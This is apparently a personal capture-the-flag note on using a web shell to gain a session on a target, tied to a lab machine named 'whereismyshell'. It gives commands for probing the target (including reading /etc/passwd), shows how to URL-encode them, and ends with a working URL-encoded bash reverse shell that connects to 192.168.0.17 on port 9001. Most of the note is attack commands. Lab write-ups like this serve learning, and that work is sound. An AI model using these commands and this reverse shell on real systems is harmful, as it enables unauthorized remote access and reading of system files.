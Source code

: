 A web shell is a shell that appears on a website. This type of shell needs to be used in different way than the normal shell.

First of all we need to know the type of shell that we have on the web shell. We can know this information executing the following commands:

```
echo $SHELL

cat /etc/passwd

which bash

which sh
```

If that commands doesn't work it would need to encode the information in a URL format. For example the encode of $ is %24, the encode of a space " " is %20 and the encode for / is %2F. We are gonna have the information like the following:

```
echo%20%24SHELL

cat%20%2Fetc%2Fpasswd

which%20bash

which%20sh
```

After running the command we need to except the output and that's when we know what to do.

If we know the type of shell know we can try a different [[reverse shell]] that we can apply so we can a have a session.

In the case that we have a bash and the reverse shell doesn't work we need to add at the beggining the next command `bash -c " "`. The final command will be like the following: 

```
bash -c "sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.17%2F9001%200%3E%261"
```

With that it should work now 💠.

## Máquinas en la que se utilizó esto

- [[whereismyshell]]